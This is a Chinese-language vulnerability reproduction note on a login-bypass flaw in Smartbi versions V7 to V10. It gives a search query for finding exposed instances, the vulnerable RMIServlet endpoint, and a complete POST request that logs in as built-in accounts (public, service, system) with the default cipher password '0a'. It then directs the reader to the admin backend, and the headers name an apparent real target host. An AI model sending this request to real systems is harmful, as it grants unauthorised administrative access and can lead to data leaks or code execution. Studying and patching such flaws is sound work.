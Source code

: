 # Smartbi内置用户登陆绕过漏洞

# 一、漏洞简介
Smartbi大数据分析产品融合BI定义的所有阶段，对接各种业务数据库、数据仓库和大数据分析平台，进行加工处理、分析挖掘和可视化展现；满足所有用户的各种数据分析应用需求，如大数据分析、可视化分析、探索式分析、复杂报表、应用分享等Smartbi在安装时会内置几个用户，在使用特定接口时，可绕过用户身份认证机制获取其身份凭证，随后可使用获取的身份凭证调用后台接口，可能导致敏感信息泄露和代码执行。

# 二、影响版本
+ V7 <= Smartbi <= V10

# 三、资产测绘
 

+ hunter：`app.name=="SMARTBI 思迈特"`

![1692015464478-003bd803-eb83-4cf4-a640-dadf6bb7867c.png](./img/lnCsT28Xnl-0EUXv/1692015464478-003bd803-eb83-4cf4-a640-dadf6bb7867c-424799.png)

+ 登录页面

![1692015491752-22149cdc-3ef4-4506-a96d-72460562ef79.png](./img/lnCsT28Xnl-0EUXv/1692015491752-22149cdc-3ef4-4506-a96d-72460562ef79-181146.png)

# 四、漏洞复现
1. 访问POC出现如下情况则可能存在漏洞

```plain
/smartbi/vision/RMIServlet
```

![1692016139611-568c3342-2a55-46ff-92d8-f1ddc6579731.png](./img/lnCsT28Xnl-0EUXv/1692016139611-568c3342-2a55-46ff-92d8-f1ddc6579731-883447.png)2. 使用POST请求如下params：其中的第一个参数是内置的三个用户名（public、service、system）可随机构造绕过登录,第二个参数是三个账号默认的密文密码(默认值为0a),当响应如下，且`result`参数为`true`时表示存在漏洞。

```plain
POST /smartbi/vision/RMIServlet HTTP/1.1
Host: xx.xx.xx.xx
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: identity
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/x-www-form-urlencoded
Cookie: JSESSIONID=B08E6669BFA8E9D85FB6BD98411C349C
Origin: https://smartbi.cy-sys.cn
Referer: https://smartbi.cy-sys.cn/smartbi/vision/RMIServlet
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/116.0
Content-Length: 81

className=UserService&methodName=loginFromDB&params=["system","0a"]
```

![1692022082661-3bf7889b-3fb3-4ef3-a1e1-628a7177aa0e.png](./img/lnCsT28Xnl-0EUXv/1692022082661-3bf7889b-3fb3-4ef3-a1e1-628a7177aa0e-823591.png)

3. 访问`https://xx.xx.xx.xx/smartbi/vision/index.jsp`成功进入后台

![1692022285213-e9394429-fba8-4237-8c14-0ec583bf0151.png](./img/lnCsT28Xnl-0EUXv/1692022285213-e9394429-fba8-4237-8c14-0ec583bf0151-880868.png)



> 更新: 2024-02-29 23:55:51  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/fkhbh9sf2269nv0m>